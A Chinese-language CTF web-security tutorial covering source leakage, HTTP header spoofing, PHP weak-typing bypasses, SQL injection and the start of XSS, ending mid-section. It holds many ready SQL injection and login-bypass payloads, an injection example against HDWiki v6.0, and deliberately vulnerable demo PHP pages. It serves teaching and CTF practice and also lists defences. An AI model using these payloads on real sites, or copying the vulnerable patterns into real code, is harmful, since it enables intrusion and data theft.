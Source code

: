 # Web In CTF

### 常见套路

- 爆破，包括md5、爆破随机数、验证码识别等

- 绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

- 花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化 destruct、\0截断

- 各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

- 文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% <script language=php>、花式解析漏洞

- Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

- open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

- 社工，包括花式查社工库、微博、QQ签名、whois

- windows特性，包括短文件名、IIS解析漏洞、NTFS文件系统通配符、::$DATA，冒号截断

- XSS，各种浏览器auditor绕过、富文本过滤黑白名单绕过、flash xss

- XXE，各种XML存在地方（rss/word/流媒体）、各种XXE利用方法（SSRF、文件读取）

- HTTP协议，花式IP伪造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA，花式藏FLAG、花式分析数据包


### 1. 信息泄露

#### 1.1 查看源代码

在线上CTF赛事的Web题目中，网页源代码是一个很重要的思路来源，按F12或右键查看源代码即可。

#### 1.2 robots.txt

爬虫协议，有时可以通过它看见一些重要的目录。

User-agent: *

Disallow: /images/

Disallow: /f1ag.txt/

Disallow: /tips.php

#### 1.3 注释

一般在右键源代码中，有时注释隐藏着重要的信息或者tips，或者出题者写下的思路。

#### 1.4 备份文件源码泄漏

​	常见备份文件后缀：

- .rar
- .zip
- .7z
- .tar.gz
- .bak
- .swp
- .txt
- .html
-  linux中可能以" ~ " 结尾
-  ng源码泄露，git源码泄露，DS_Store文件泄漏，网站备份压缩文件，SVN导致文件泄露，WEB-INF/web.xml泄露，CVS泄漏等，可参考以下资料：
- <https://www.cnblogs.com/xishaonian/p/7628153.html>
- <http://www.s2.sshz.org/post/source-code-leak/>
- <https://zhuanlan.zhihu.com/p/21296806>

#### 1.5 include漏洞

遇到php代码中有include($file)的，一般和 php://input或者php://filter有关，$file值如果是php://input，就要用post表单构造数据，如果是php://filter，就用下面的payload读取文件base64加密后的源代码，解密后查看源代码。

```php
php://filter/read=convert.base64-encoding/resource=文件名(如index.php)
php://filter/read=convert.base64-encode/resource=index.php
```



### 2. 抓包/HTTP

#### 2.1 GET&POST

Get和Post操作是传参的基本操作，也是CTF中很常见的常规操作。

GET：在url中提交参数，如/index.php?a=1

POST：可通过hackbar或抓包插入post数据提交

最直接的区别：

GET请求的参数是放在URL里的，POST请求参数是放在请求body里的。

#### 2.2 HTTP头部绕过姿势

- 如果提示需要本地ip或指定ip才能访问，则可在报文头部添加以下几种常用信息段：

  ```http
  X-Forwarded-For: 127.0.0.1
  X-Client-IP: 127.0.0.1
  Client-IP: 127.0.0.1
  (ip地址可以根据需要修改)
  ```

- 如果需要验证网页来源，如一定要从谷歌跳转过来的页面才允许访问，则可在报文头部添加：

  ```http
  Referer: https://www.google.com
  ```

- 如果网页需要验证cookie，我们可以在http头部加入：

  ```http
  Cookie: u = stupid;
  ```

- 除了以上几种常见的情况，还需根据具体情况来使用不同的操作



### 3. 源码审计

#### 3.1 php弱类型

##### "=="与"==="

```php
<?php
	$a == $b ;
	$a === $b ;
?>
    
//=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
// == 在进行比较的时候，会先将字符串类型转化成相同，再比较
```

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

```php
<?php
var_dump("admin" == 0); //true
var_dump("1admin"== 1); //true
var_dump("admin1"== 1); //false
var_dump("admin1"== 0); //true
var_dump("0e123456"=="0e4456789"); //true 
?>  //上述代码可自行测试
    
 // 观察上述代码
 //"admin"==0 比较的时候，会将admin转化成数值，强制转化,由于admin是字符串，转化的结果是0自然和0相等
 //"1admin"==1 比较的时候会将1admin转化成数值,结果为1，而“admin1“==1 却等于错误，即是"admin1"被转化成了0,为什么呢？？
 //"0e123456"=="0e456789"相互比较的时候，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等
```

php手册：

```c
/*
当一个字符串当作一个数值来取值，其结果和类型如下:如果该字符串没有包含'.','e','E'并且其数值值在整形的范围之内
该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。
*/
```

```php
<?php
$test=1 + "10.5"; // $test=11.5(float)
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+"bob-1.3e3";//$test=1(int)
$test=1+"2admin";//$test=3(int)
$test=1+"admin2";//$test=1(int)
?>
    
So that's why " "admin1"==1 =>False "
```

![](\images\php==.png)

##### md5绕过(Hash比较缺陷)

```php
<?php
if (isset($_GET['Username']) && isset($_GET['password'])) {
    $logined = true;
    $Username = $_GET['Username'];
    $password = $_GET['password'];

     if (!ctype_alpha($Username)) {$logined = false;}
     if (!is_numeric($password) ) {$logined = false;}
     if (md5($Username) != md5($password)) {$logined = false;}
     if ($logined){
    echo "successful";
      }else{
           echo "login failed!";
        }
    }
?>
```

大意是要输入一个字符串和数字类型，并且他们的md5值相等，就可以成功执行下一步语句 

介绍一批md5开头是0e的字符串

**0e在比较的时候会将其视作为科学计数法**，所以无论0e后面是什么，0的多少次方还是0。

键入**md5('240610708') == md5('QNKCDZO')**成功绕过！

收集md5开头是0e的字符串（来源于网络）：

```php
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514
```

##### json绕过

```php
<?php
if (isset($_POST['message'])) {
    $message = json_decode($_POST['message']);
    $key ="*********";
    if ($message->key == $key) {
        echo "flag";
    } 
    else {
        echo "fail";
    }
 }
 else{
     echo "~~~~";
 }
?>
```

输入一个json类型的字符串，json_decode函数解成一个数组，判断数组中key的值是否等于 $key的值，但是$key的值我们不知道，**但是可以利用0=="admin"这种形式绕过**.

**最终payload **

````json
message={"key":0}
````

##### array_search is_array绕过

```php
<?php
if(!is_array($_GET['test'])){exit();}
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){
    if($test[$i]==="admin"){
        echo "error";
        exit();
    }
    $test[$i]=intval($test[$i]);
}
if(array_search("admin",$test)===0){
    echo "flag";
}
else{
    echo "false";
}
?>
```

先判断传入的是不是数组，然后循环遍历数组中的每个值，并且数组中的每个值不能和admin相等，并且将每个值转化为int类型，再判断传入的数组是否有admin，有则返回flag。

```php
payload: test[]=0//可以绕过
```

官方手册对array_search的介绍

```php
mixed array_search ( mixed $needle , array $haystack [], bool $strict = false )
```

$needle，$haystack必需，$strict可选  函数判断$haystack中的值是存在$needle，存在则返回该值的键值 第三个参数默认为false，如果设置为true则会进行严格过滤。

```php
<?php
	$a=array(0,1);
	var_dump(array_search("admin",$a));  // int(0) ==> 返回键值0
	var_dump(array_search("1admin",$a)); // int(1) ==> 返回键值1
?>
```

array_search函数 类似于 == 也就是$a =="admin" 当然是$a=0  当然如果第三个参数为true则就不能绕过。

##### strcmp漏洞绕过 php -v <5.3

```php
<?php
    $password="***************"
     if(isset($_POST['password'])){

        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";n
            exit();
        } else {
            echo "Wrong password..";
        }
 ?>
```

- strcmp是比较两个字符串，如果str1<str2 则返回<0 如果str1大于str2返回>0 如果两者相等 返回0
- 我们是不知道$password的值的，题目要求strcmp判断的接受的值和$password必需相等，strcmp传入的期望类型是字符串类型，如果传入的是个数组会怎么样呢
- 我们传入 password[]=xxx 可以绕过 是因为函数接受到了不符合的类型，将发生错误，但是还是判断其相等
- payload: password[]=xxx

##### switch绕过

```php
<?php
$a="4admin";
switch ($a) {
    case 1:
        echo "fail1";
        break;
    case 2:
        echo "fail2";
        break;
    case 3:
        echo "fail3";
        break;
    case 4:
        echo "sucess";  //结果输出success;
        break;
    default:
        echo "failall";
        break;
}
?>
```

原理和上面一样

##### is_numeric（）、int()强制类型转换

```php
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

知识点：

```
int()，不能正确转换的类型有十六进制型字符串、科学计数法型字符串
is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串
```

先判断是不是数字，然后再进行int长短的限定判断，也就是只能限定在5184000L<  time <  7776000

通过is_number() 能传入科学计数法，来进行绕过。

所以根据int不能处理科学计数法，而在is_number上能处理来解决。



### 4. SQL注入

#### 分类

##### 按照参数类型分类

按照参数类型可以分为两类:数值型、字符型

简单来说，就是：

```sql
数字型注入
加单引号 错误出异常
and 1 = 1 正常
and 1 = 2 异常

字符型注入
加单引号 错误出异常
and '1' = '1 正常
and '1' = '2 异常
```

###### 数值型

程序拼接的变量值没有被引号包裹。数值型注入是无视php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义函数的影响的。如果程序没有对关键字或者特殊符号过滤或者过滤不严(比如没有过滤union、select等关键字,可以使用联合注入,过滤了union、select等关键字,可以用盲注或者报错注入等方法)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```



sqlinjection.php(test on mysql 5.5.38)

```php
<?php
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['id'])&&$_GET['id']){
    $id = $_GET['id'];
    $sql = "select * from news where id=$id";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error());
}
else{
    $sql = "SELECT * FROM news";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
}
?>
<!DOCTYPE html>
<html>
<head>
<title>新闻</title>
</head>
<body>
<?php
if (isset($result)){
    while($row = mysql_fetch_row($result, MYSQL_ASSOC)){
        echo "{$row['tid']}    {$row['title']}    {$row['content']}</br>";
    }
}
?>
</body>
</html>
```

如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://127.0.0.1/sqlinjection.php?id=1 union select 1,2,user() --
```

没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=1 or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and sleep(3) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)。

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

###### 字符型

程序拼接的变量被引号包裹。字符型注入是是受php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义的函数影响的。如果程序没有对引号和关键字或者特殊符号过滤或者过滤不严,可能会导致sql注入。

eg:

```php
$p = $_GET['p']; p = 100' and '1'='1
$sql = "select * from news where p = '3' and '1'='2'";
```

闭合单引号,如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://xxx/qqq.php?p=1' union select 1,2,user() --
```

闭合单引号,没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://xxx/qqq.php?p=1' or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://xxx/qqq.php?p=1' and sleep(5) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://xxx/qqq.php?p=1' and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

##### 按数据库返回的结果分类

据数据库返回的结果,分为回显注入、报错注入、盲注。

###### 回显注入

可以直接在存在注入点的当前页面中获取返回结果,可以使用回显注入。

常见利用:

- union select

###### 报错注入

程序将数据库的返回错误信息直接显示在页面中。虽然没有返回数据库的查询结果,但是可以构造一些报错语句从错误信息中获取想要的结果。

常见利用:

- floor
- updatexml
- extractvalue

###### 盲注

程序后端屏蔽了数据库的错误信息，没有直接显示结果也没有报错信息，只能通过数据库的逻辑和延时函数来判断注入的结果。

- bool盲注(based boolean)
  - 如果测试时发现页面有变化,可以尝试使用bool盲注
- 时间盲注(based time)
  - 如果测试时页面无变化,但是通过sleep发现页面存在延迟,可以尝试使用时间盲注

利用:

- Length()、Substr()、Ascii()、sleep()、if(expr1,expr2,expr3)等结合使用

##### 其他特殊注入

###### 宽字节注入

形成条件:

- 开启了gpc或使用addslashes、mysql_real_escape_string,mysql_escape_string等对引号转义的函数
- 使用了`SET NAMES 多字节编码`或者`set character_set_client=多字节编码`指令,这里多字节编码低位的范围需要覆盖0x5C才能导致注入。我们最常见的是gbk编码。

假如代码中设置的是GBK编码(mysql那端表或者字段设置的编码无影响,会自动转换),这时只要引入宽字节高位编码吃掉`\`(%5c),就导致了宽字节注入的发生。

可以参考[https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/](https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```

sqlgbkinjection.php(test on mysql 5.5.38)

```php
<?php
//连接数据库部分，注意使用了gbk编码，把数据库信息填写进去
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_query("SET NAMES 'gbk'");
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
//执行sql语句
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="gbk" />
<title>新闻</title>
</head>
<body>
<?php
$row = mysql_fetch_array($result, MYSQL_ASSOC);
echo "<h2>{$row['title']}</h2><p>{$row['content']}<p>\n";
mysql_free_result($result);
?>
</body>
</html>
```

测试:
`http://127.0.0.1/sqlgbkinjection.php?id=10%df%27%20union%20select%201,user(),database()%23`

###### 二次注入

首先将构造好的利用代码写入网站保存,再第二次或多次请求后调用攻击代码触发或者修改配置触发的漏洞。



比如sql二次注入:

在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

eg:
数据表使用的是上面news表

secondaryinjection.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0);
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['title'])&&isset($_GET['tid'])&&isset($_GET['content'])){
    $tid = intval($_GET['tid']);
    $title = $_GET['title'];
    $content = $_GET['content'];
    if (!get_magic_quotes_gpc()){
        $title = addslashes($title);
        $content = addslashes($_GET['content']);
    }
    $sql = "INSERT INTO news(tid,title,content) VALUES ($tid,'$title','$content')";
    mysql_query($sql, $conn) or die(mysql_error());

    $sql = "select * from news where tid=$tid";
    echo $sql;
    $results = mysql_query($sql,$conn);
    $row = mysql_fetch_array($results);
    $_SESSION['tid'] = $row['tid'];
    $_SESSION['title'] = $row['title'];
    echo $_SESSION['title'];
}
elseif (isset($_SESSION['title'])){
    $title = $_SESSION['title'];
    $sql = "select * from news where title='$title'";
    echo $sql.'<br>';
    $results = mysql_query($sql, $conn) or die(mysql_error());
    while ($row = mysql_fetch_array($results))
    {
        echo $row['title'].'    '.$row['content'];
        echo '<br>';
    }
}
else{
    echo 'Try create a new';
}
?>
```

`http://127.0.0.1/secondaryinjection.php?tid=6&title=aaa%27 union select 1,user(),3%23&content=qqqqq`

`http://127.0.0.1/secondaryinjection.php`

#### 检测判断sql注入：

```sql
id=1' and 1=0 //报错
id=1' and 1=1 //正确
```

#### 判断什么类型注入：

```sql
id=1'
id=1"
```

可加 “\” 等符号，构造报错，从报错回显中观察是什么类型的错误，如：

```sql
SELECT * from table_name WHERE id='our input'

SELECT * from table_name WHERE id=our input

SELECT * from table_name WHERE id=('out input')

SELECT * from table_name WHERE id=("our input")
```

![](C:\Users\mcwin\Desktop\Web In CTF\images\sql.png)

原理如上

#### 数据库查询版本

- Mssql: select @@version
- Mysql: select version（）/select @@version
- oracle: select banner from ￥version
- Postgresql: select version（）

#### 判断过滤了哪些字符？

采用异或注入。
在id=1后面输入 '(0)'
发现不出错，那就将0换成1=1
如果出错，那就是成功了

如果括号里面的判断是假的，那么页面就会显示正确
那么同理，
如果修改里面的内容为length(‘union’)!=0
如果页面显示正确，那就证明length(‘union’)==0的，也就是union被过滤了

#### 判断字段长度

- order by 数字 可以判断字段的个数
- 也可以用猜字段 union select 1，2，3

```sql
id=1' order by 1
id=1' order by 2
...
id=1' order by n
```

如果n出现了错误那么共有n-1列，union查询必须列数量对齐，也就是说union select 1,2,...,n-1 from ...

#### 判断字段回显位置

在链接后面添加语句`union select 1,2,3,4,5,6,7,8,9,10,11#`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。

#### 判断数据库注入

利用内置函数暴数据库信息
version()版本；database()数据库；user()用户；
不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：and ord(mid(user(),1,1))=114 返回正常说明为root
```

#### 绕过登陆验证

- admin’ –
- admin’ #
- admin’/*
- ’ or 1=1–
- ’ or 1=1#
- ’ or 1=1/*
- ') or ‘1’='1–
- ') or (‘1’='1–

#### SQL注入常见函数

- group_concat函数 可以把查询的内容组合成一个字符串
- load_file(file name ) 读取文件并将文件按字符串返回
- left（string，length）返回最左边指定的字符数：
- left（database（），1）>‘s’ (猜名字)
- length（）判断长度
- length（database（）>5
- substr（a，b，c）从字符串a中截取 b到c长度
- ascii（）将某个字符转为ascii值
- ascii（substr（user（），1，1））=101#
- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

#### 联合爆库：

这里假设有3列：

为了让联合注入工作，首先要知道数据库中的表名，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+ //--+是把语句闭合后注释掉后面的语句
```

有时程序可能不会打印出所有的行，这时我们就得使用关键字limit一条条进行查询，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1 --+
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
```

或者可以用group_concat():

```sql
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

假设有'users'表

现在看其中的一个表，为了提取其信息，键入：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

注意，我们使用'column'替换了'table'，因为我们想要的是一个表的列信息
假设有'username'，'password'，'flag'列，我们可以键入：

```sql
id=-1' union select 1,group_concat(username),3 from users --+
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
id=-1' union select 1,flag,3 from users --+
```

即可按需查询所需要的信息。



#### 报错注入：

```sql
- floor （SELECT user()可修改）

- OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)–+
  
- ExtractValue(有长度限制,最长32位) （select @@version可修改）
  
  and extractvalue(1, concat(0x7e, (select @@version),0x7e))–+

- UpdateXml(有长度限制,最长32位) （SELECT @@version可修改）

  and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)–+

- NAME_CONST(适用于低版本，不太好用)

- and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)–+

- Error based Double Query Injection

- or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1–+

- exp(5.5.5以上) （select user()可修改）

- and (select exp(~(select * from(select user())x)))–+

- floor(Mysql): and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x 
from information_schema.tables group by x)a);

- Extractvalue(Mysql): and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql): and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select 
user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));
```



#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  ```sql
  //正常情况
   'or bool#
   true'and bool#
       
   //不使用空格、注释
   'or(bool)='1
   true'and(bool)='1
       
   //不使用or、and、注释
   '^!(bool)='1
   '=(bool)='
   '||(bool)='1
   true'%26%26(bool)='1
   '=if((bool),1,0)='0
       
   //不使用等号、空格、注释
   'or(bool)<>'0
   'or((bool)in(1))or'0
       
   //其他
   or (case when (bool) then 1 else 0 end)
  ```

- 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  ```sql
   1' or (bool) or '1'='1
   1%' and (bool) or 1=1 and '1'='1
  ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

    ```
      left(user(),1)>'r'  
      right(user(),1)>'r'  
      substr(user(),1,1)='r'  
      mid(user(),1,1)='r' 
          
      //不使用逗号 
      user() regexp '^[a-z]'
      user() like 'root%'
      POSITION('root' in user())
      mid(user() from 1 for 1)='r'
      mid(user() from 1)='r'
    ```

- ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+--------------+------------------------
  | id |    username  | password                   
  +----+--------------+------------------------
  |  1 | 2            | 5                         
  |  1 | admin        | 51b7a76d51e70b419f60d34 
  +----+----------- --+------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+-----------+--------------------------
  |id   | username  | password                  
  +-----+-----------+--------------------------
  |  1  | admin     |51b7a76d51e70b419f60d3
  |  1  |    2      | 6                          
  +-----+-----------+--------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
- 一般格式if((bool),sleep(3),0)和or (case when (bool) then sleep(3) else 0 end)
- 两个函数：
- BENCHMARK(100000,MD5(1))
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源，推荐使用sleep()。

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%df%27 union select 1.2–+

### 实例

以HDWiki v6.0 UTF8-20170209 前台sql注入为例，index.php?doc-create创建词条可以通过`aaaa……aa'` 81个字符，经过转义变成`aaaa……aa\'`82个字符，经过截断变成`aaaa……aa\`81个字符，将sql语句中的单引号转义，并且后面一个参数用户可控，产生了SQL注入

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'`

`，concat(user(),0x7c,database(),0x7c,version()),1,1,#`

### 漏洞防范

#### gpc/rutime魔术引号

- magic_quotes_gpc负责对GET、POST、COOKIE的值进行过滤
- magic_quotes_runtime对从数据库或者文件中获取的数据进行过滤。上面的二次注入可以使用这个函数对特殊符号转义

开启这两个选项也只能防御部分SQL注入。因为他们只对`'`、`"`、`\`、`空字符`进行转义,在int型注入上没有太大作用。

#### 过滤函数和类

##### addslashes函数

addslashes也是对`'`、`"`、`\`、`空字符`进行转义，大多数程序使用它实在程序入口，判断如果没有没有开启gpc,则使用它对参数进行过滤,不过他的参数必须是string,所以如果参数是数组类型,那么必须使用此函数对数组递归过滤。

##### mysql\_[real]\_escape\_string

mysql_escape_string和mysql_real_escape_string函数都是对字符串进行过滤,在php4.0.3以上版本才有这两个函数,`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`。不同在于mysql_real_escape_string接受的是一个连接句柄并根据当前字符集转义字符串,所以最好使用mysql_real_escape_string。

mysql_escape_string

```php
$item = "Zak's Laptop";
$escaped_item = mysql_escape_string($item);
```

mysql_real_escape_string

```php
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
$item = "Zak's Laptop";
$escaped_item = mysql_real_escape_string($item,$conn);
```

##### intval

将字符转换成数值

eg:

```php
$id = '1 union select';
$id = intval($id);
echo $id;
```

#### PDO预编译方式

使用PDO方式基本可以防止sql注入,原因是因为有两次传输，前一次传一个sql模板，第二次传查询参数，会把第二步传入的参数只做查询参数处理，不做语义解释，这样注入的条件就算执行了，也不会得到查询结果。但是还是存在特殊情况会在使用了PDO方式也会存在注入,可以参考[https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218](https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218)

eg:

```php
try {
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
} catch (PDOException $e) {
echo $e->getMessage();
}
$sta = $pdo->prepare('select * from table where name = ?'); //准备 SQL 模版，其中 ? 代表一个参数。
$sta->execute(array('name1')); //通过数组设置参数，执行 SQL 模版
```

## 5.XSS漏洞(跨站脚本攻击)

### 成因与危害

参数没有被过滤或严格过滤,且参数传入到了输出函数,被输出到了页面。常出现在文章发表、评论回复、留言、资料修改等地方。

可能产生如下危害:

- 窃取cookie
- 修改页面进行钓鱼
- 前端能做的事情,xss都能做到

### 分类

反射型、存储型、dom型

#### 反射型

经过了后端,但是没有经过经过数据库。

数据流向: 浏览器 -> 后端 -> 浏览器

eg:

reflectxss.php(test on mysql 5.5.38)

```php
XSS反射演示
<form action="" method="get">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
session_start();
$xss = @$_GET['xss'];
if($xss!==null){
    echo $xss;
}
?>
```

`http://127.0.0.1/reflectxss.php?xss=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用(以获取用户cookie为例):
比如`http://xxx.com/xxx.php?aaa=攻击者编写的获取用户cookie的代码`存在反射型xss,
攻击者可以把构造好的链接发到论坛或者其他方式诱导用户点击,如果用户点击了链接,那么用户的cookie会被攻击者的服务器收到,攻击者可以利用用户的cookie登陆目标网站

#### 存储型

数据经过了后端,经过了数据库。

数据流向: 浏览器-> 后端-> 数据库-> 后端-> 浏览器

eg:

```mysql
create table xss (
    id int(10) unsigned NOT NULL AUTO_INCREMENT,
    payload varchar(100) NOT NULL,
    PRIMARY KEY (id)
)ENGINE=MyISAM DEFAULT CHARSET=utf8;
